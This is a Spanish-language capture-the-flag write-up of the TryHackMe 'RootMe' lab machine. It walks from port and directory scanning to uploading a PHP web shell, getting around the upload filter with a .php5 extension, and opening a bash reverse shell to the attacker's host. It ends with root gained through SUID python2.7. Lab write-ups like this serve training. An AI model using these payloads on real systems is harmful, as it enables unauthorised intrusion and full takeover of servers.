



# RootMe - TryHackMe

## Reconocimiento

Vamos a comenzar con un escaneo de puertos para identificar los servicios que se están ejecutando en la máquina objetivo.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.128.159.154 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62
```

Vemos que los puertos 22 (SSH) y 80 (HTTP) están abiertos. A continuación, realizamos un escaneo más detallado en estos puertos.

```bash
nmap -sCV -p22,80 10.128.159.154

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 cf:79:16:7d:06:c1:63:65:78:7f:f6:5d:16:dc:6f:6f (RSA)
|   256 81:54:36:c8:17:9b:ef:a7:01:e0:e2:9c:54:62:d3:82 (ECDSA)
|_  256 13:e7:f4:c1:20:15:96:58:8c:cf:5e:0c:1e:92:66:49 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nos encontramos con un servidor web Apache en el puerto 80 y openSSH en el puerto 22.

Al entrar en http://10.128.159.154/ vemos el siguiente texto:



Vamos a realizar una enumeración de directorios utilizando `gobuster` para descubrir posibles rutas ocultas en el servidor web.

```bash
gobuster dir -u http://10.128.159.154 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 200 --exclude-length 10701

/css                  (Status: 301) [Size: 314] [--> http://10.128.159.154/css/]
/js                   (Status: 301) [Size: 313] [--> http://10.128.159.154/js/]
/uploads              (Status: 301) [Size: 318] [--> http://10.128.159.154/uploads/]
/panel                (Status: 301) [Size: 316] [--> http://10.128.159.154/panel/]
```

Vemos un directorio `/panel` para subidas de archivos y un directorio `/uploads` donde supongo se subirán los archivos.

Vamos a abusar de subidas de archivos para obtener una shell. Primero, vamos a crear un archivo PHP que nos dará acceso a la máquina.

```php
<?php
  system($_GET['cmd']);
?>
```




No nos permite la subida de archivos php, vamos a interceptar la petición por Burp Suite para ver como se está tramitando.

Viendo en el repeater la petición nos encontramos con esto:

```
------geckoformboundary9f6c934638b9c6e1786b8ecb728da8e
Content-Disposition: form-data; name="fileUpload"; filename="cmd.php"
Content-Type: application/x-php


<?php
  system($_GET['cmd']);
?>

------geckoformboundary9f6c934638b9c6e1786b8ecb728da8e
Content-Disposition: form-data; name="submit"

Upload
------geckoformboundary9f6c934638b9c6e1786b8ecb728da8e--
```

## Explotación

Vamos a intentar cambiar el nombre del archivo a `cmd.php.jpg` para ver si nos permite subirlo.

```
<p class='success'>O arquivo foi upado com sucesso!</p><a href='../uploads/cmd.php.jpg'>Veja!</a>
```

Nos permite subir el archivo y lo vemos en uploads



Nos da un error porque no puede interpretar la imagen por lo que volvemos a mandar otra petición port pero con nombre cmd.php5.

http://10.128.159.154/uploads/cmd.php5?cmd=whoami

Nos devuelve: `www-data` por lo que vamos a montarnos una reverse shell para obtener acceso a la máquina.

http://10.128.159.154/uploads/cmd.php5?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.154.96/443 0>%261'

```bash
sudo nc -lvnp 443

www-data@ip-10-128-159-154:/var/www/html/uploads$
```

## Escalada de privilegios

Ahora que estamos en la máquina vamos a hacer una escalada de privilegios, pero antes, hagamos el tratamiento de la TTY.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 cols 184
```

```bash
www-data@ip-10-128-159-154:/var/www/html$ id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@ip-10-128-159-154:/var/www/html$ sudo -l
[sudo] password for www-data:

find -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python2.7
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
```

Muy interesante ese python2.7

Veamos que hay en /home

```bash
www-data@ip-10-128-159-154:/home$ ls -la
total 20
drwxr-xr-x  5 root   root   4096 Aug 10  2025 .
drwxr-xr-x 24 root   root   4096 Jul 21 16:26 ..
drwxr-xr-x  4 rootme rootme 4096 Aug  4  2020 rootme
drwxr-xr-x  3 test   test   4096 Aug  4  2020 test
drwxr-xr-x  4 ubuntu ubuntu 4096 Aug 10  2025 ubuntu
```

Vemos los directorios pero no hay nada interesante.

Usamos GTFObins: https://gtfobins.org/gtfobins/python/#shell

Vamos a intentar ejecutar una bash con python2.7

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'

bash-5.0# whoami
root
```

Acabo de encontrar la flag de usuario en `/var/www`, aunque ya estamos como root.

Ahora vamos a buscar la flag de root en `/root` y la encontramos.